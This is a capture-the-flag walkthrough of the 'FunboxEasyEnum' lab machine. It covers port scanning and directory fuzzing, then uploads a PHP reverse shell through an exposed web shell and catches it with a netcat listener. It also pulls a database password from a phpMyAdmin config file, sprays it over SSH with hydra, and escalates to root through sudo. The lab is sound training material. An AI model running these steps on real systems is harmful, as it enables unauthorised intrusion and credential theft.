







## FunboxEasyEnum Writeup

I first scan the IP with rustscan, which then pipes the open ports to nmap. Here is the command:

`$ rustscan -b 600 -a 192.168.122.132 -- -sC -sV -oA nmap/services`

Nmap reveals that there are two ports open:

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3a6aFbaxLEn4AMDXmMVZdNfaQuJQ/AcPHffagHb77o1FmSe+6tlCRHMil9l4qJILffRQHkdbQJtrlBk52V35SHfPp8x89B+Pfv7slkKxXE7fkZBIJuUjHF+YAoSakOtY72d7o6Bet2AwCijSBzZ1bkVC4i/L9euG2Oul5oA2iFlnzwYjrhki6MFNFJvvyoOqcJr1zS+w4W0NO1RexielQsxeUG3khrfVYts5kWFQPr39tk52zRZ/gpAKjR00XN4N5mi/mBjvvgnlVX4DNeyxh5r+E5sdLGzJ0Vk8JzjDW7eK70kv2KmVCFSJNceUjfaIV+K4z9wFoy6qZte7MxhaV
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoJi5En616tTVEM4UoE0AVaXFn6+Rhike29q/pKZh5nIPQfNr9jqz2II9iZ5NZCPwsjp3QrsmTdzGwqUbjMe0c=
|   256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO+CVl8CiYP8L+ni0CvmpS7ywOiJU62E3O6L8G2n/Yov
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This strongly suggests that the line of attack will be through the web service on port 80.

Upon checking it out at, I see it's just the default Apache2 Ubuntu page:



Fuzzing the webroot, I find a few endpoints:

```bash
$ gobuster dir -u 192.168.122.132 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.132
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/02/28 16:43:41 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.122.132/javascript/]
/phpmyadmin           (Status: 301) [Size: 323] [--> http://192.168.122.132/phpmyadmin/]
/robots.txt           (Status: 200) [Size: 21]
/server-status        (Status: 403) [Size: 280]
Progress: 4614 / 4615 (99.98%)===============================================================
2023/02/28 16:44:01 Finished
```

If you check the robots.txt file, you'll just find a message indicating to enumerate this box. Given from the output this is a php website, I'll fuzz for files with a php extension:

```bash
$ gobuster dir -u http://192.168.122.132 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.132
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/02/28 17:03:39 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/.html.php            (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/.htm                 (Status: 403) [Size: 280]
/.htm.php             (Status: 403) [Size: 280]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.122.132/javascript/]
/.                    (Status: 200) [Size: 10918]
/phpmyadmin           (Status: 301) [Size: 323] [--> http://192.168.122.132/phpmyadmin/]
/.htaccess            (Status: 403) [Size: 280]
/.htaccess.php        (Status: 403) [Size: 280]
/.phtml               (Status: 403) [Size: 280]
/.htc                 (Status: 403) [Size: 280]
/.htc.php             (Status: 403) [Size: 280]
/mini.php             (Status: 200) [Size: 3828]
<SNIP>
```

mini.php is interesting. Visiting /mini.php, I find something called Zerion Mini Shell 1.0. 



There is no out-of-the-box exploit on this, so maybe it's something custom. Apparently, it's just an interface that performs a few shell functions after uploading a file. I upload a php reverse shell, which can be found [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Alternatively, on Kali, this is included here:  `/usr/share/webshells/php/php-reverse-shell.php`

I modify the IP and port, then upload the shell:



I note the working directory for the web app is `/var/www/html/`, meaning that the shell should be located at `http://<IP>/shell.php`.

I want to make sure the permissions are set to execute this file when I access it. The web app affords a few shell functions, including delete, chmod, rename, edit. I set the command to chmod, then go to another page, where I set the permissions to 0777. The functionality of setting this to 0777 was somewhat annoying because it's not reflected in on the website accurately. I made sure to intercept the request in Burp to make sure the value was set to 0777:



I set up a netcat listener, wrapping it with ```rlwrap``` to make sure the up-down arrows work for a better shell experience:

```bash
$ rlwrap nc -lvnp 443
```

 Visiting ```http://192.168.122.132/shell.php``` gets me a shell as www-data: 



I improve the shell using the `python3 -c 'import pty; pty.spawn("/bin/bash")'` trick, then setting ```stty raw -echo```, followed by backgrounding the shell, then entering ```fg``` to bring it back, followed by setting my terminal variable to ```export TERM=xterm``` to be able to clear the screen.

With this in place, I can collect local.txt, which is located in www-data's home directory:



Checking open ports, I see that MySQL is running on port 3306:

```bash
www-data@funbox7:/$ ss -tupln
ss -tupln
Netid  State    Recv-Q   Send-Q      Local Address:Port     Peer Address:Port
udp    UNCONN   0        0           127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN   0        80              127.0.0.1:3306          0.0.0.0:*
tcp    LISTEN   0        128         127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN   0        128               0.0.0.0:22            0.0.0.0:*
tcp    LISTEN   0        128                     *:80                  *:*
tcp    LISTEN   0        128                  [::]:22               [::]:*
```

Looking for config files, I find one in `/etc/phpmyadmin`:

```bash
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
<SNIP>
```

So, ```tgbzhnujm!``` is a password. Before I check MySQL and dump what information I can from these creds, I'm curious to see if anyone in the home folder has this as a password. I get the users and then password spray with hydra:

```bash
www-data@funbox7:/etc/phpmyadmin$ ls -l /home
total 20
drwxr-xr-x 2 goat   goat   4096 Feb 16  2021 goat
drwxr-xr-x 2 harry  harry  4096 Jan 28  2021 harry
drwxr-xr-x 2 karla  karla  4096 Feb 16  2021 karla
drwxr-xr-x 2 oracle oracle 4096 Feb 16  2021 oracle
drwxr-xr-x 2 sally  sally  4096 Jan 28  2021 sally

#on attacker
$ cat users.txt
goat
harry
karla
oracle
sally

$ hydra -L users.txt -p 'tgbzhnujm!' ssh://192.168.122.132
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-28 17:25:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://192.168.122.132:22/
[22][ssh] host: 192.168.122.132   login: karla   password: tgbzhnujm!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-28 17:25:19
```

I can ssh as karla:

```bash
$ ssh karla@192.168.122.132
The authenticity of host '192.168.122.132 (192.168.122.132)' can't be established.
ED25519 key fingerprint is SHA256:O6BLR8bFSyZavzqwjyqsKadofhK4GNKalxHMVbZR+5Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.122.132' (ED25519) to the list of known hosts.
karla@192.168.122.132's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb 28 22:25:51 UTC 2023

  System load:  0.0               Processes:             166
  Usage of /:   62.8% of 4.66GB   Users logged in:       0
  Memory usage: 56%               IP address for ens192: 192.168.122.132
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

First thing to do is check sudo privs:

```bash
karla@funbox7:~$ sudo -l
[sudo] password for karla:
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```

Easy. Become root:

```bash
karla@funbox7:~$ sudo su
[sudo] password for karla:
root@funbox7:/home/karla# cd /root
root@funbox7:~# ls
proof.txt  root.flag
root@funbox7:~# whoami
root
```

Collect proof.txt:

